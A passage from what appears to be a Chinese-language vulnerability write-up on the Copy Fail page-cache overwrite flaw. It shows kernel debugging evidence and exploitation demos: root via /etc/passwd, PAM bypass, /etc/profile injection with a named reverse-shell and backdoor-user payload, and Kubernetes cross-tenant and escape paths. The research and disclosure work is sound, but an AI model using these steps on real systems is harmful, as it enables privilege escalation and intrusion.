# ↑ 磁盘文件系统 (ext4): drop_caches 后会从磁盘重新加载原始数据
```

**结论**：4 字节 page cache 写入原语有效，偏移精确可控，多次写入互不干扰。

#### 4.3.3 实验 2：GDB 证据链 — SGL 布局与 Scratch Write

这是最关键的实验：通过 GDB 在 `crypto_authenc_esn_decrypt` 入口处观察 `req->src == req->dst`（证实 in-place），并追踪 `scatterwalk_map_and_copy` 的写操作落在 page cache page 上。

```bash
# === 终端 1: 启动 QEMU (debug 模式) ===
./run_qemu.sh debug
# === Debug mode: QEMU paused, waiting for GDB on localhost:1234 ===

# === 终端 2: 连接 GDB，加载 Python 断点脚本 ===
gdb ./vmlinux -x exp3_2_gdb.py
# [GDB Script] Setting up breakpoints for Experiment 3.2+3.3...
# Breakpoint 1 at 0xffffffff812984f8: file crypto/authencesn.c, line 263.
# [GDB] BP1: crypto_authenc_esn_decrypt (entry)
# Breakpoint 2 at 0xffffffff8128f93e: file crypto/scatterwalk.c, line 57.
# [GDB] BP2: scatterwalk_map_and_copy (writes only)

(gdb) target remote :1234
(gdb) continue
```

在 VM shell 中执行 PoC（`poc_pagecache_write /tmp/target.txt 0 0xDEADBEEF`），GDB 自动捕获以下输出：

```
============================================================
=== crypto_authenc_esn_decrypt ENTRY ===
  req       = 0xffff888002d96a90
  req->src  = 0xffff888002d96820
  req->dst  = 0xffff888002d96820
  src == dst: YES (IN-PLACE!)          ← 漏洞根因确认
  assoclen  = 8
  cryptlen  = 4 (before -= authsize)
============================================================
  --- dst SGL entries ---
  SGL[0]: page_link=0xffffea000006f440 offset=1760 length=8
  SGL[1]: page_link=0xffff8880027cbda1 offset=0 length=0 [CHAIN]
  SGL[2]: page_link=0xffffea000006f8c2 offset=0 length=4 [LAST]

=== [HIT 1] scatterwalk_map_and_copy WRITE ===
  buf=0xffffc90000113d20 sg=0xffff888002d96820 start=4 nbytes=4
  writing value: 0x41414141
  backtrace:
    #0 scatterwalk_map_and_copy
    #1 crypto_authenc_esn_decrypt      ← seqno_hi 写入 dst[4..7]
    #2 _aead_recvmsg
    #3 aead_recvmsg
    #4 sock_recvmsg_nosec
    #5 sock_recvmsg

=== [HIT 2] scatterwalk_map_and_copy WRITE ===
  buf=0xffffc90000113d24 sg=0xffff888002d96820 start=8 nbytes=4
  writing value: 0xdeadbeef            ← ★ SCRATCH WRITE: 命中 page cache!
  backtrace:
    #0 scatterwalk_map_and_copy
    #1 crypto_authenc_esn_decrypt      ← dst[assoclen+cryptlen] = dst[8+0] = page cache
    #2 _aead_recvmsg
    ...

=== [HIT 3] scatterwalk_map_and_copy WRITE ===
  buf=0xffffc90000113cc8 sg=0xffff888002d96820 start=0 nbytes=8
  writing value: 0x41414141
  backtrace:
    #0 scatterwalk_map_and_copy
    #1 crypto_authenc_esn_decrypt_tail ← ESN header 恢复 (HMAC 后清理)
    ...
```

**GDB 输出的关键解读**：

| 字段 | 含义 |
|------|------|
| `src == dst: YES` | 确认 in-place 模式 — 72548b093ee3 引入的漏洞行为 |
| `SGL[1]: [CHAIN]` | `sg_chain()` 将 tag pages 链接到 RX SGL — 漏洞的 SGL 构造 |
| `SGL[2]: offset=0 length=4 [LAST]` | Tag page = 文件 page cache 页面 (offset 0 处的 4 字节) |
| HIT 2: `value=0xdeadbeef start=8` | scratch write 写入 dst[8] — 恰好是 chained tag page 起始 |

SGL 布局验证完毕，调用链 `recv()` → `_aead_recvmsg` → `crypto_authenc_esn_decrypt` → `scatterwalk_map_and_copy(WRITE)` → page cache 已完整捕获。

#### 4.3.4 实验 3：修复版内核对比

在相同环境下，替换为打了补丁 `a664bf3d603d` 的 6.12.85 内核重复实验：

```bash
# 使用修复版内核启动
BZIMAGE=bzImage.patched VMLINUX=vmlinux.patched ./run_qemu.sh debug
```

GDB 输出对比：

```
============================================================
=== crypto_authenc_esn_decrypt ENTRY ===
  req       = 0xffff888002dcea90
  req->src  = 0xffff888002e6d880
  req->dst  = 0xffff888002dce820
  src == dst: NO                       ← 修复: out-of-place 模式
  assoclen  = 8
  cryptlen  = 4 (before -= authsize)
============================================================
  --- dst SGL entries ---
  SGL[0]: page_link=0xffffea000006f582 offset=1760 length=8 [LAST]
                                                              ^^^^
  ↑ 仅 1 个 entry, 无 CHAIN, 无 page cache page!

=== [HIT 1] scatterwalk_map_and_copy WRITE ===
  writing value: 0x41414141
  sg->page_link = 0xffffea000006f582   ← 写入 RX buffer (用户空间), 安全

=== [HIT 2] scatterwalk_map_and_copy WRITE ===
  writing value: 0xdeadbeef
  sg->page_link = 0xffffea000006f582   ← 同样写入 RX buffer, 无副作用
```

| 对比项 | 漏洞版 (6.12.8) | 修复版 (6.12.85) |
|--------|-----------------|------------------|
| `src == dst` | YES (in-place) | NO (out-of-place) |
| dst SGL entries | 3 (含 CHAIN + page cache page) | 1 (仅 RX buffer) |
| scratch write 目标 | page cache page | RX buffer (无害) |
| 执行后 page cache | **被修改** | 未修改 |

---

## 五、一个反复出现的漏洞模式：页缓存覆写

2022 年的 Dirty Pipe、2026 年的 Copy Fail 和紧随其后的 Dirty Frag 共享一个明确的漏洞模式：`splice()` 零拷贝将文件的 page cache page 引用传入内核子系统，该子系统的某条代码路径对这些引用执行写操作（pipe merge、crypto scratch write、in-place decrypt），导致文件页缓存被篡改。这一模式已在三个独立的内核子系统中反复出现：

| 漏洞 | 年份 | 机制 | 写入确定性 | 仅修改页缓存 |
|------|------|------|:----------:|:----------:|
| [Dirty Pipe](https://dirtypipe.cm4all.com/) (CVE-2022-0847) | 2022 | `pipe` 标志位初始化缺陷 + `splice` | ✅ | ✅ |
| **Copy Fail** (CVE-2026-31431) | 2026 | `AF_ALG` in-place 优化 + `splice` | ✅ | ✅ |
| [Dirty Frag](https://dirtyfrag.io/) (CVE-2026-43284/43500) | 2026 | `xfrm-ESP`/`RxRPC` in-place 解密 + `splice` | ✅ | ✅ |

三者的触发路径各不相同，但共享同一核心结果：内核代码路径绕过 VFS 写权限检查，通过 splice 注入的 page 引用直接修改文件页缓存内容。由于修改不经过 VFS 写路径，页面不会被标记为 dirty，磁盘上的原始文件不受影响——篡改仅存在于内存中的页缓存，重启或 `drop_caches` 后恢复。


更早的 [Dirty COW](https://dirtycow.ninja/) (CVE-2016-5195, 2016) 通过完全不同的机制（`mmap` COW 竞态条件 + GUP）达到了相似的结果——非授权修改文件数据。但 Dirty COW 不涉及 splice 或 in-place 操作，其竞态成功后修改会通过 page writeback 写回磁盘（设置 PG_dirty），属于不同类别的漏洞。

原语等价，利用面自然也相同。以下以 Copy Fail 为例，展示"对任意可读文件页缓存的 4 字节可控写入"这一原语在宿主机上除 SUID 文件之外的其他攻击面——以下所有路径均已在 CentOS Stream 8（未修补内核 4.18.0-553）上实验确认可行，结论对同类页缓存覆写漏洞通用。

> **💡 实验代码**
> 本节涉及的所有 PoC 脚本：[GitHub — pagecache-guard/poc/host-attacks](https://github.com/0xlane/pagecache-guard/tree/main/poc/host-attacks)

### 5.1 /etc/passwd UID 篡改

`/etc/passwd` 在所有 Linux 发行版上的权限均为 0644（世界可读），是此类漏洞利用的天然目标。

原理：将目标用户的 UID 字段从 `1000` 改为 `0000`——仅修改一个 ASCII 字符。Linux 通过 UID 判断用户身份，UID 为 0 即 root。

```bash
# 修改前: testuser123:x:1000:1000::/home/testuser123:/bin/bash
python3 exp_passwd_uid.py testuser123
# [+] SUCCESS: UID changed to 0000 in page cache

id testuser123
# uid=0(root) gid=0(root) groups=0(root)

su - testuser123
# whoami → root
# 可以读 /etc/shadow ✅

# 恢复
echo 3 > /proc/sys/vm/drop_caches
```

仅 1 次 4 字节写入即可完成提权。无需 shellcode，无需了解 ELF 结构——所有发行版通用。修改未设置 `PG_dirty`，`drop_caches` 可恢复。

### 5.2 PAM 认证绕过

`pam_unix.so` 是 Linux 标准密码认证模块，权限通常为 0644。

原理：修改 `pam_unix.so` 中 `pam_sm_authenticate` 函数的密码校验逻辑——将返回值保存指令 `mov %eax,%ebp`（89 c5）替换为 `xor %ebp,%ebp`（31 ed），强制返回 `PAM_SUCCESS`（0）：

```x86asm
; 密码校验后保存返回值
0x3d5e:  89 c5           mov  %eax, %ebp    ; 原始: 保存真实的校验结果
; 修改为:
0x3d5e:  31 ed           xor  %ebp, %ebp    ; 篡改: 强制清零 = PAM_SUCCESS
```

```bash
python3 exp_pam_bypass.py
# [*] Auto-detected patch offset: 0x3d5e
# [*] Patching to: 31ede95e (xor %ebp,%ebp)
# [+] SUCCESS: pam_unix.so patched in page cache

su root
# Password: (任意输入)
# whoami → root ✅
```

**持久性特殊**：`sshd`、`login`、`sd-pam` 等进程通过 `mmap(MAP_PRIVATE)` 加载了 `pam_unix.so`。这些 mmap 引用使得 `drop_caches` 无法驱逐被篡改的页面——内核在 `invalidate_inode_page()` 中检测到 `page_mapped()` 为真时跳过驱逐。修改将持续到所有映射进程退出或文件 inode 被替换（`yum reinstall pam`）。

### 5.3 共享库 Live-Patching

Linux 通过 `mmap(MAP_PRIVATE)` 加载 `.so` 共享库，所有使用同一库的进程共享同一组 page cache 物理页。修改 `.so` 的 page cache **等价于**修改所有已加载该库的运行中进程的代码或数据段——x86 缓存一致性协议确保写入对所有核心的指令和数据获取立即可见。

实验在 `libnss_files.so`（系统 NSS 名称解析库，0644）上验证，通过一个**持续运行**的监控进程观察修改效果：

```bash
# Step 1: 启动监控进程，持续读取 mmap 映射中的字符串
gcc -o monitor exp_shared_lib_monitor.c -ldl
./monitor &
# [monitor] PID=161045
# [monitor] initial: "/etc/hosts"
# [monitor] tick 1: no change
# [monitor] tick 2: no change

# Step 2: 篡改 .so 的 page cache (另一终端)
python3 exp_shared_lib.py
# [+] SUCCESS: '/etc/hosts' → '/etc/h0sts' in page cache

# Step 3: 监控进程无需重启即检测到变化
# [monitor] tick 3: *** STRING CHANGED ***
# [monitor] now: "/etc/h0sts"
# [monitor] *** LIVE-PATCH CONFIRMED (no restart) ***
```

关键证据：监控进程 PID=161045 从启动到结束**从未重启**。它在 tick 1-2 读到原始值，PoC 执行后在 tick 3 **立即**看到修改。

CentOS 8 上有 20+ 系统守护进程（sshd、crond、dockerd、dbus-daemon 等）持有 `libnss_files.so` 的 mmap 引用，`drop_caches` 无法驱逐——修改在系统运行期间半永久存在，恢复需要 `yum reinstall glibc-common`。

> **⚠️ 风险**
> 修改核心系统库（如 `libc.so`）的代码段虽然理论上可实现任意代码执行（所有调用目标函数的 root daemon 立即受影响），但存在极高的系统崩溃风险。上述实验仅修改了 `.rodata` 段中的字符串作为安全验证。

### 5.4 /etc/profile 命令注入

`/etc/profile` 在所有 Linux 发行版上均为 0644 且被每个登录 shell 自动 source（SSH 登录、`su -`、控制台登录）。

原理：利用注释行中的 `#` 作为掩护——覆盖注释文本为命令，原始文本被 `#` 注释掉，不影响文件其余功能：

```
# 原始: # It's NOT a good idea to change this file unless you know what you
# 注入: id>>/tmp/CF-PWNED  #ea to change this file unless you know what you
#       ↑ 命令部分            ↑ '#' 注释掉剩余文本, 不影响后续行
```

```bash
python3 exp_profile_inject.py "id>>/tmp/CF-PWNED  #"
# [*] Payload: 20 bytes, 5 writes
# [+] SUCCESS: command injected into /etc/profile

# 触发: root 执行登录 shell
su - root -c "echo triggered"

cat /tmp/CF-PWNED
# uid=0(root) gid=0(root) groups=0(root) ✅
```

仅 5 次写入（20 字节）即可完成注入。通用性极强——所有发行版均有 `/etc/profile`，且包含注释行。实际攻击场景中可注入反弹 shell（`bash -i>&/dev/tcp/IP/PORT 0>&1 #`）或后门用户创建命令（`useradd -o -u0 backdoor #`）。

### 5.5 计划任务脚本篡改

Cron 定时任务和 systemd 服务引用的脚本或二进制文件（通常为 0755 世界可读），是完全被动的利用目标——攻击者篡改后只需等待 daemon 下次调度执行。

```bash
# 环境准备: cron job 每分钟执行 /tmp/copyfail-lab/cron_target.sh
# 脚本内容: echo "ORIGINAL $(date +%s)" >> cron.log

# 篡改脚本 page cache
python3 exp_cron_script.py /tmp/copyfail-lab/cron_target.sh
# [+] SUCCESS: script tampered in page cache ("ORIGINAL" → "HIJACKED")

# 下一次 cron 触发 (≤ 1 分钟):
tail /tmp/copyfail-lab/cron.log
# HIJACKED 1778309461   ← crond 执行了被篡改的脚本 ✅
```

crond 在每次触发时重新读取脚本文件内容，天然获取 page cache 中的篡改数据。systemd 引用的服务脚本同理。

> **ℹ️ 配置文件 vs 脚本文件**
> 直接修改 cron **配置文件**（`/etc/cron.d/`）或 systemd **unit 文件**（`.service`）的 page cache 在实验中也验证了技术可行性，但在实战中**不可行**：cronie 使用 inotify 检测配置变化——page cache 修改不触发 inotify，需要 `crond` 重启才能读取变更；systemd unit 文件的修改同样需要 `systemctl daemon-reload` 或服务重启才生效。低权限攻击者无法控制这些 daemon 操作。因此，可行的攻击路径仅限于篡改已有任务**引用的脚本/二进制文件**。

### 5.6 /etc/ld.so.preload 路径劫持

`/etc/ld.so.preload` 列出的共享库被动态链接器在每个程序启动时**优先加载**。修改其中的库路径即可实现全局代码注入。

```bash
# 前提: 系统已有 /etc/ld.so.preload (用于性能监控等)
cat /etc/ld.so.preload
# /tmp/copyfail-lab/libmarker.so

python3 exp_preload_hijack.py
# [+] SUCCESS: preload path hijacked
# /tmp/copyfail-lab/libmarker.so → /tmp/copyfail-lab/libevil00.so

ls /dev/null
# [preload] EVIL LIBRARY LOADED!   ← 恶意库被每个新进程加载
# /dev/null
```

**前提条件**：目标系统必须已存在 `/etc/ld.so.preload`（Copy Fail 无法创建新文件，只能修改已有文件的页缓存）。该文件默认不存在，但在使用 jemalloc 预加载、LD_PRELOAD 安全 agent、性能监控等场景中常见。

---

## 六、容器场景深度研究

前面梳理了页缓存覆写在宿主机上的多条提权路径。但在容器化基础设施中，这类漏洞的威胁还要更进一步：**Page Cache 是一个跨越容器隔离边界的全局共享状态**。漏洞披露后，多个安全团队迅速关注了容器/K8s 场景：[Juliet](https://juliet.sh/blog/we-tested-copy-fail-in-kubernetes-pss-restricted-runtime-default-af-alg) 验证了 PSS Restricted 和 RuntimeDefault 均不阻止 AF_ALG，[Stream Security](https://www.stream.security/post/cve-2026-31431-how-copy-fail-behaves-in-kubernetes) 在生产级 EKS 集群上完成了端到端验证，[Percivalll](https://github.com/Percivalll/Copy-Fail-CVE-2026-31431-Kubernetes-PoC) 给出了通过篡改特权 DaemonSet 共享层实现 Pod→Node 逃逸的完整 PoC（已在 ACK / EKS / GKE 上验证）。本节在这些工作基础上，通过独立实验进一步验证和扩展容器场景的攻击可行性边界。

所有结论均在真实 Kubernetes 集群（[k3s](https://k3s.io/) v1.32 + containerd v2.0.5，CentOS Stream 8 未修补内核 4.18.0-553）上通过实验验证。

> **💡 容器实验代码**
> 本节涉及的 Pod YAML、PoC 脚本和验证工具：[GitHub Gist — Container Experiments](https://gist.github.com/0xlane/d89e230c9e18bfd8cc126452352afae6)

### 6.1 镜像层共享：Page Cache 的跨容器传播

容器运行时（containerd、Docker）使用 overlayfs 管理容器的文件系统。对于同一个 base image（如 `python:3.11-slim`），其镜像层在宿主机上只存储一份。所有使用该镜像的容器，其 lower layer 指向同一组 inode。

这意味着：当容器 A 通过 `read()` 读取 `/usr/bin/python3` 时，内核为该 inode 建立 page cache 条目；当容器 B 随后读取同一文件时，命中的是完全相同的 page cache 页面。

需要强调的一个前提：**page cache 是内核级全局缓存，但其作用域是单机的**——只有位于同一节点上的容器，才可能通过 overlayfs layer 共享指向同一组 inode，进而共享 page cache。跨节点的容器即使使用完全相同的镜像，其 page cache 也是各自独立的。这一"同节点"限制是后续所有跨容器攻击场景的根本前提。


#### 实验验证：跨容器 page cache 共享

部署实验环境并验证 inode 共享：

```bash
# 部署两个使用相同 base image 的 Pod
kubectl create ns copyfail-lab
kubectl apply -f pod-cross-tenant.yaml    # 见 Gist

# 验证两个 Pod 共享同一 /etc/os-release inode
kubectl exec -n copyfail-lab pod-attacker -- stat -c '%i' /etc/os-release
# 208483846
kubectl exec -n copyfail-lab pod-victim-same -- stat -c '%i' /etc/os-release
# 208483846    ← 相同 inode = 共享 page cache
```

在攻击者 Pod 中执行 page cache 写入：

```bash
# 攻击者 Pod 中执行 PoC
kubectl exec -n copyfail-lab pod-attacker -- python3 /poc_marker.py /etc/os-release
# [*] Target: /etc/os-release
# [*] Before: 50524554
# [*] After:  deadbeef
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# 受害者 Pod (同 base image) — 立即看到被篡改的内容
kubectl exec -n copyfail-lab pod-victim-same -- \
  python3 -c "import os; print(os.pread(os.open('/etc/os-release',0),16,0).hex())"
# deadbeef54595f4e414d453d22446562
# [+] MARKER FOUND: page cache is SHARED with attacker pod!

# 对照组 (不同 base image) — 不受影响
kubectl exec -n copyfail-lab pod-victim-alpine -- head -c 16 /etc/os-release | xxd
# 00000000: 4e41 4d45 3d22 416c 7069 6e65  NAME="Alpine
```

宿主机直接读取 containerd snapshot 目录中的对应文件，同样看到被篡改的数据：

```bash
# 宿主机读取 snapshot 层文件
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# drop_caches 恢复
echo 3 > /proc/sys/vm/drop_caches
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb
```

### 6.2 零特权跨租户攻击


基于上述共享机制，验证**零特权跨租户攻击**——攻击者和受害者在完全隔离的不同 namespace 中：

```bash
# 创建两个完全隔离的 namespace
kubectl create ns copyfail-lab      # 攻击者
kubectl create ns tenant-victim     # 受害者

# 部署 Pod (见 Gist: pod-cross-tenant.yaml)
kubectl apply -f pod-cross-tenant.yaml
```

**前提验证 — 确认 inode 共享**：

```bash
# 两个不同 namespace 的 Pod, 相同 base image → 相同 inode
kubectl exec -n copyfail-lab pod-attacker -- stat -c '%i' /bin/cat
# 1420102
kubectl exec -n tenant-victim victim-app -- stat -c '%i' /bin/cat
# 1420102    ← 相同! 即使在不同 namespace
```

**攻击执行**：

```bash
# Step 1: 确认受害者 /bin/cat 正常
kubectl exec -n tenant-victim victim-app -- \
  python3 -c "import os; print(os.pread(os.open('/bin/cat',0),16,0).hex())"
# 7f454c46020101000000000000000000  (正常 ELF header)

# Step 2: 攻击者执行 Copy Fail (无任何特权!)
kubectl exec -n copyfail-lab pod-attacker -- python3 /poc_marker.py /bin/cat
# [*] Before: 7f454c46
# [*] After:  deadbeef
# [+] SUCCESS: page cache corrupted! first 4 bytes = deadbeef

# Step 3: 受害者立即受到影响
kubectl exec -n tenant-victim victim-app -- \
  python3 -c "import os; print(os.pread(os.open('/bin/cat',0),16,0).hex())"
# deadbeef020101000000000000000000
# ↑ ELF magic 被破坏!

# Step 4: 受害者服务中断
kubectl exec -n tenant-victim victim-app -- cat /etc/hostname
# exec /usr/bin/cat: exec format error    ← 二进制无法执行

# Step 5: 恢复 (宿主机执行)
echo 3 > /proc/sys/vm/drop_caches
kubectl exec -n tenant-victim victim-app -- cat /etc/hostname
# victim-app    ← 恢复正常
```

**关键结论**：这一攻击不需要任何特殊的 capability、hostPath 挂载或安全配置放宽。唯一的前提是内核未修补且容器中可以执行 Python（或等价的 C 程序）。两个 Pod 之间无需网络连通性、不需要知道对方的 IP 或名称。

上述实验中篡改的是普通用户 Pod 中的文件，影响局限于"跨租户 DoS"。但一个自然的问题是：**能否通过同样的方式实现容器逃逸——从一个零特权 Pod 获取节点级控制？**

答案的关键在于攻击目标的选择。回顾 6.1 节的分析，page cache 篡改有两个前提：① 攻击者与目标容器位于同一节点；② 两者共享至少一个 image layer。如果目标容器以 `privileged: true` 运行，那么当被篡改的二进制在其中执行时，攻击者的 payload 就拥有了完整的节点权限。

什么样的特权容器比较容易同时满足"特权"和"同节点"两个条件？**DaemonSet** 是一个天然的候选。DaemonSet 的定义就是在集群每个节点上各运行一个 Pod 副本——无论受陷 Pod 被调度到哪个节点，该节点上必然存在 DaemonSet 实例。而 Kubernetes 集群中恰好有不少以 `privileged: true` 运行的系统级 DaemonSet（如 kube-proxy、CNI 插件、日志收集器等），它们同时满足两项条件。

我猜测 [Percivalll](https://github.com/Percivalll/Copy-Fail-CVE-2026-31431-Kubernetes-PoC) 也是基于类似的逻辑选择了 kube-proxy 作为攻击目标。kube-proxy 在主流云厂商的托管集群（Alibaba Cloud ACK、Amazon EKS、Google GKE）中均以 `privileged: true` DaemonSet 运行，满足上述所有条件。其 PoC 通过篡改 kube-proxy 容器中 `ipset` 二进制的 page cache，在 kube-proxy 下次调用该工具时实现节点代码执行（已在三大云平台验证）。为简化验证流程，PoC 将攻击者镜像构建为 `FROM registry.k8s.io/kube-proxy:v1.35.2`，从而确定性地与 kube-proxy 共享包含 `ipset` 的 image layer。

#### 寻找利用目标：节点上的层共享分析

PoC 中 `FROM` 目标镜像的做法是为了确定性地复现漏洞利用。如果要评估真实环境中的暴露面——即一个普通业务 Pod 是否天然与同节点的特权 DaemonSet 共享 image layer——可以在节点上进行如下分析：

```bash
# 1. 列出节点上所有 privileged 容器及其镜像
crictl ps -o json | jq -r '.containers[] | "\(.id) \(.image.image) \(.metadata.name)"'

# 2. 对比业务 Pod 镜像与目标 DaemonSet 镜像的 layer digest
MY_IMAGE="python:3.11-slim"
TARGET_IMAGE="registry.k8s.io/kube-proxy:v1.35.2"

crictl inspecti $MY_IMAGE | jq -r '.info.imageSpec.rootfs.diff_ids[]' > /tmp/my_layers.txt
crictl inspecti $TARGET_IMAGE | jq -r '.info.imageSpec.rootfs.diff_ids[]' > /tmp/target_layers.txt
comm -12 <(sort /tmp/my_layers.txt) <(sort /tmp/target_layers.txt)
# 有输出 → 存在共享层

# 3. 确认目标文件的 inode 是否真的被两个容器共享
# (在两个容器内分别执行)
stat -c '%d:%i' /usr/sbin/ipset    # 设备号:inode号
# 两个容器输出相同 → page cache 共享确认
```

如果共享的是基础库（如 `ld-linux-x86-64.so.2`、`libc.so.6`），理论上攻击面更大——任何二进制执行时都会加载这些库，无需等待特定二进制被调用。但实际操作中，替换整个 `.so` 文件需要对每个 4 字节窗口逐一覆写，耗时较长；且覆写过程中如果有进程正在加载该 `.so`，极易导致进程崩溃。核心共享库被大量进程依赖，这一问题尤为突出——篡改 `libc.so.6` 的结果大概率是节点上的容器大面积崩溃（DoS），而非稳定获取代码执行权限。

#### 真实攻击场景中的挑战

上述分析需要节点级权限（`crictl`、直接访问 containerd 存储）。而在真实攻击场景中，攻击者通过 RCE 拿到的只是一个普通 Pod 的 shell——**无法直接查看同节点上还运行着哪些容器、它们使用了哪些镜像、layer digest 是否一致**。这意味着攻击者无法在目标环境中直接完成上述分析，只能进行推测和盲目尝试。

但盲目在目标环境中逐个文件尝试 Copy Fail 并不明智——每次 4 字节覆写都是不可逆的（除非管理员主动 drop cache），一旦猜错目标文件或层共享关系不成立，只会在受陷容器自身留下损坏的二进制。轻则暴露攻击痕迹，重则直接导致容器崩溃、丢失已获取的立足点——本质上是一种两败俱伤的做法。

因此，预测该漏洞在容器场景中更现实的利用方式是**针对特定业务环境的定向攻击**：攻击者通过已入侵容器中运行的业务即可识别出该业务是什么应用（Web 框架、中间件版本、base image 类型等）。如果该业务使用的是通用的公开镜像或常见技术栈，攻击者可以在本地复现相同的部署环境（相同镜像 + 相同 K8s 发行版），进行白盒分析——寻找特权容器、确认 layer 共享关系、定位可利用的共享文件、调试 payload——然后带着确定性的利用方案回到目标环境中一次性执行。

### 6.3 能否直接逃逸到宿主机？

上一节讨论的是"跨容器"提权——通过篡改特权 DaemonSet 中的二进制间接获取节点权限。但这依赖于层共享和目标容器的后续执行。一个更激进的问题是：**能否跳过中间容器，直接让宿主机进程执行被篡改的 page cache 数据？**

Copy Fail 能篡改任意文件的 page cache，但仅篡改数据是不够的——还需要宿主机上的进程在其自身的特权上下文中**加载并执行**这些被篡改的数据。单纯的 `read()` 不构成逃逸；只有当读取的数据被作为代码执行（如 `execve()`、`dlopen()`、解析后跳转）时，才能转化为代码执行。

但首先需要回答一个更基本的问题：**如果宿主机进程确实访问了某个文件，它加载的是磁盘上的原始内容还是 page cache 中被篡改的数据？**

答案是后者。Page cache 是内核为所有文件 I/O 设置的全局透明缓存层。无论是 `read()` 还是 `execve()`，内核加载文件内容的路径都经过 page cache（通过 `filemap_read` / readahead）。如果某个 inode 对应的页面已在 page cache 中，内核直接返回缓存数据，不会重新读取磁盘——这一行为与访问者处于哪个 namespace 无关。

Section 6.1 中的实验提供了直接证据。容器内通过 Copy Fail 篡改 `/etc/os-release` 的 page cache 后：

```bash
# 宿主机通过 snapshot 路径读取同一 inode — 读到篡改后的数据
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: dead beef 5459 5f4e 414d 453d 2244 6562  ....TY_NAME="Deb

# drop_caches 强制驱逐 page cache — 内核从磁盘重新加载
echo 3 > /proc/sys/vm/drop_caches
head -c 16 /var/lib/containerd/.../snapshots/<id>/fs/etc/os-release | xxd
# 00000000: 5052 4554 5459 5f4e 414d 453d 2244 6562  PRETTY_NAME="Deb
```

drop_caches 前后的对比清楚地表明：宿主机读取到的是 page cache 内容而非磁盘数据。对于 `execve()` 也是同样的机制——后续 Section 6.4 中的 hostPath 实验将直接验证这一点：容器篡改 `/usr/bin/ls` 的 page cache 后，宿主机执行 `ls` 返回 `exit 126`（`exec format error`），证明内核在 `execve()` 时同样从 page cache 加载了被篡改的 ELF header，而非从磁盘读取原始文件。

因此，page cache 篡改对宿主机确实是全局可见的，对 `read()` 和 `execve()` 同样生效。真正的问题在于：**在标准容器运行流程中，宿主机进程是否会主动访问容器 snapshot 层中的文件 inode？** 可以想到两类候选场景：

1. **容器运行时（containerd + runc）** 在容器创建/启动过程中是否会在宿主机上下文中 `execve()` 或 `dlopen()` snapshot 层中的文件？
2. **宿主机上的其他工具** （如 EDR、合规扫描）是否会执行容器层中的二进制、加载其 `.so`、或解释执行其脚本？

针对场景 1，通过 `bpftrace` 追踪容器启动时 runc 和 containerd 的行为：

```bash
# 追踪 runc init 进程读取文件时的 mount namespace
bpftrace -e '
kprobe:vfs_read /comm == "runc:[2:INIT]"/ {
    $task = (struct task_struct *)curtask;
    $mntns = $task->nsproxy->mnt_ns->ns.inum;
    printf("runc-init vfs_read mntns=%u file=%s\n",
           $mntns, str(((struct file *)arg0)->f_path.dentry->d_name.name));
}' &

# 触发容器创建
kubectl run test-probe --image=python:3.11-slim --restart=Never -- sleep 10

# 输出:
# runc-init vfs_read mntns=4026533841 file=passwd
# runc-init vfs_read mntns=4026533841 file=group
# ↑ mntns ≠ 宿主机(4026531840), 说明已在容器 namespace 内
```

```bash
# 追踪 containerd 进程的 vfs_read
bpftrace -e '
kprobe:vfs_read /comm == "containerd"/ {
    printf("containerd vfs_read: %s\n",
           str(((struct file *)arg0)->f_path.dentry->d_name.name));
}' -- 60   # 监控 60 秒, 期间创建/删除容器

# 结果: 仅看到 config.json, meta.db 等元数据文件
# 从未读取 snapshot 层的 /bin/*, /etc/* 等文件内容
```

containerd 自身的追踪结果也印证了这一点——它只操作元数据（`config.json`、`meta.db`），不会读取更不会执行 snapshot 层中的用户文件。

对于场景 2（宿主机工具），这不属于通用场景——是否存在这类行为取决于具体业务环境中节点上部署了什么软件，不具备普遍性，因此不在此做针对性测试。但也不排除某些特定环境下存在宿主机进程会执行容器层文件的情况。

结论：在标准 Kubernetes (containerd) 环境下，**通用的零特权容器→宿主机直接逃逸在架构层面不可行**。容器运行时的设计确保了：runc 对容器 rootfs 的操作发生在已切换的 mount namespace 中，containerd 不接触 snapshot 层的用户数据。但如果节点上存在非标准的宿主机服务会从容器层路径加载并执行文件，则可能构成特定环境下的逃逸向量。Docker 环境存在架构层面的差异，将在 Section 6.5 中单独讨论。

### 6.4 特权配置与容器逃逸

虽然零特权逃逸不可行，但如果容器拥有某些特权配置，Copy Fail 就能作为关键的"最后一块拼图"实现容器逃逸。以下是对多种特权配置的系统性验证：

#### hostPath (readOnly: true) + Copy Fail → 绕过只读限制

Kubernetes 中 `hostPath` volume 常被配置为 `readOnly: true` 以限制容器对宿主机文件的修改。但 Copy Fail 通过 page cache 绕过了这一限制：

```yaml
# Pod 配置 (见 Gist: pod-hostpath-escape.yaml)
volumes:
- name: host-bin
  hostPath:
    path: /usr/bin
    type: Directory
volumeMounts:
- name: host-bin
  mountPath: /hostbin
  readOnly: true    # ← 看似安全
```

```bash
# 确认 mount 确实是只读
kubectl exec -n copyfail-lab hostpath-test -- mount | grep hostbin
# /dev/mapper/cl-root on /hostbin type xfs (ro,relatime,...)

# 常规写入被拒绝
kubectl exec -n copyfail-lab hostpath-test -- touch /hostbin/test
# touch: cannot touch '/hostbin/test': Read-only file system

# Copy Fail 绕过只读限制!
kubectl exec -n copyfail-lab hostpath-test -- python3 /poc_marker.py /hostbin/ls
# [*] Before: 7f454c46
# [*] After:  deadbeef
# [+] SUCCESS: page cache corrupted!

# 宿主机验证
ls
# bash: /usr/bin/ls: cannot execute binary file: Exec format error
# Exit code: 126
```

这是 Copy Fail 最独特的价值：**将 O_RDONLY 文件描述符变为可写攻击面**。传统认知中，readOnly mount 至少能防止文件被篡改——Copy Fail 打破了这个假设。

#### CAP_DAC_READ_SEARCH + Copy Fail → Shocker 升级版

`CAP_DAC_READ_SEARCH` capability 允许进程绕过文件和目录的读权限检查。经典的 Shocker 攻击利用 `open_by_handle_at()` 系统调用配合这个 capability 获取宿主机文件系统的 fd。但 Shocker 原本只能 **读取** 宿主机文件。

结合 Copy Fail，攻击链变为：

```bash
# 部署带 CAP_DAC_READ_SEARCH 的容器
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: shocker-test
  namespace: copyfail-lab
spec:
  containers:
  - name: test
